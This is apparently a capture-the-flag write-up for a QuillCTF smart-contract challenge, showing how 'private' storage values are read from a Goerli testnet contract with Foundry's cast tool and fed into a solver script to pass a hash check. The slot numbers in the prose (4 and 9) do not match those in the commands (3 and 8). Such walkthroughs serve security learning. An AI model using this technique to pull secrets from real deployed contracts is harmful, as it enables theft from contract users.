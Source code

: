 ## Confidential
by Team QuillAudits
https://quillctf.super.site/challenges/quillctf-challenges/ctf02

solution by 2pats

### Main Vulnerabilities:
"private" storage in EMV smart contracts are not actually private;

### Strategy:
Access the private variables using foundry toolkit's cast CLI utility

### Walkthrough
1) the given instance address is 0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66

2) the two keys we need are the stored values "aliceHash" and "bobHash" bytes32 at storage slots 4 and 9 respectively
*note: conveniently, each value stored in this contract takes up exactly 1 slot, the types are string,uint,bytes32. Each slot is signed at bytes32

3) use the foundry cast CLI read these slots:

we are on goerli, so I use this as the environment variable GOERLI_RPC=https://rpc.ankr.com/eth_goerli
```
cast storage 0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66 3 --rpc-url $GOERLI_RPC
cast storage 0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66 8 --rpc-url $GOERLI_RPC
```

the outputs will be in your terminal, copy and paste to use in the following foundry script:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.7;

import "../lib/forge-std/src/Script.sol";
import "../lib/forge-std/src/console.sol";
import "../src/Confidential.sol";

contract Hack {
    //address given by the CTF prompt
    address targetAddress = 0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66;
    Confidential target = Confidential(targetAddress);

    // alice hash at storage slot 4
    bytes32 A = 0x448e5df1a6908f8d17fae934d9ae3f0c63545235f8ff393c6777194cae281478;
    //bob hash at stirage slot 9
    bytes32 B = 0x98290e06bee00d6b6f34095a54c4087297e3285d457b140128c1c2f3b62a41bd;

    //solver
    function run() public view {
        //use the hash function given by the CTF contract
        bytes32 hash = target.hash(A, B);

        //check of that hash is valid
        bool result = target.checkthehash(hash);

        //if true, we pass
        console.logBool(result);
    }
}

``` 

the CTF contract provides the hash functions for us, just use A and B as the inputs that we have derived from earlier

